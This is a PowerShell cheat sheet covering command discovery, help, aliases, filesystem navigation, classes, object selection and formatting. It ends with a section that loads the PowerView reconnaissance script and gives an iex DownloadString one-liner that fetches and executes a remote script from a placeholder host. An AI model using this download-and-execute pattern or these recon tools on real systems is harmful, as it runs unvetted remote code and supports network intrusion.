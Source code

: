 ## Basics
* Search Commands
	```powershell
	#list all powershell cmdlets, functions and alias
	Get-Command
	
	#search ommands that starts with get
	Get-Command get*
	
	#search commands that ends with object
	Get-Command *object
	
	#search command for a verb
	Get-Command -Verb Get
	
	#search command for a noun
	Get-Command -Noun Object
	
	```
* Help
	```powershell
	#get help for the command New-Object
	Get-Help New-Object
	
	#List Examples for New-Object
	Get-Help New-Object -Example
	
	#get detailed help for New-Object 
	Get-Help New-Object -Detailed
	
	#get online help for the command
	Get-Help New-Object -Online
	```
* Alias
	```powershell
	# Print all alias
	Get-Alias
	
	#search alias
	Get-Alias search_term
	```
* Variables
	```powershell
	#Storging values/object/data in variable
	$myobj = Get-Childitem
	$myobj = Get-Location
	$myobj = "Doctor Dragon"
	```
## Filesystem
* Filesystem Navigation
	```powershell
	#list files and directories; ls
	Get-Childitem
	
	#change directory; cd
	Set-Location
	
	#print current working directory; pwd
	Get-Location
	
	#print content of the file; cat
	Get-Content filename
	```
## Classes and Objects
* Creating a Class in Powershell
	```powershell
	class human{
		[string]$name
		[int]$age
		[string]greet(){
			return "$($this.name) is $($this.age) years old"
		}
	}
	```
* Creating objects from a class
	```powershell
	# creating instance of a class using accelerator
	$drdragon = [human]::new() 
	$myname = [System.String]::new("Hello World")
	
	# creating a instance of a class using cmdlet
	$drdragon = New-Object -TypeName human
	$myname = New-Object System.String("Hello World")
	```
* List Properties and Methods of Objects
	```powershell
	# get properties and methods for the object
	$myobj | Get-Member
	Get-Childitem | Get-Member
	```
* Accessing Properties and methods of object
	```powershell
	# Acess property for the object
	$myobj.Length
	(New-Object System.String("drdragon")).Length
	
	# execute methods for the object
	$myobj.Remove(1)
	(New-Object System.String("drdragon")).Remove(1)
	```
* Selecting Objects
	```powershell
	# print specific property of an object
	Get-Childitem | Select-Object -Property Name,Parent
	$myobj | Select-Object -Property Name
	
	# print all property of an object
	$myobject | Select-Object -Property *

	# Alisas for Select-Ojbect
	Get-ChildItem | select Name, Parent
	```
* Filtering Objects
	```powershell
	# filter output if object's Name property is equal to "etc"
	Get-Childitem | Where-Object {$_.Name -eq "etc"}
	```
## Format Object
* Format-List
	```powershell
	# Prints Properties of an object in a key-value pair format
	Get-Childitem | Format-List
	
	# Prints secific property
	Get-Childitem | Format-List -Property Name,Parent
	```
* Format-Table
	```powershell
	# Default way of printing objects
	# Prints properties of object in a table format
	Get-Childitem | Format-Table
	
	# Prints secific property
	Get-Childitem | Format-Table -Property Name,Parent
	```
## Running Scripts
- Local Scripts
```powershell
# dot source
. .\Tools\Powerview.ps1

# Using cmdlet
Import-Module C:\Tools\Powerview.ps1

# Get commands imported by a module
Get-Command -Module <ModuleName>

```
- Remote Scripts
```powershell
iex (New-Ojbect Net.webClient).DownloadString('https://server.com/powerview.ps1')
```
